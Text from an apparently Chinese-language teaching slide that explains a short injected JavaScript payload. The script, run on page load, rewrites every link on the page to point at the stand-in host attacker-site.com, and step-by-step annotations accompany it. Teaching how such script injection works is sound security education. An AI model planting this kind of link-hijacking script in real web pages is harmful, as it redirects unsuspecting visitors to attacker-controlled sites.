

window.onload  当窗口加载时，执行匿名函数。

使用for循环遍历所有获得的链接a标签。

<script>
window.onload = function() {
var link=document.getElementsByTagName("a");
for(j = 0; j < link.length; j++) {
   link[j].href="http://attacker-site.com/";}
}

</script>

替换为其他URL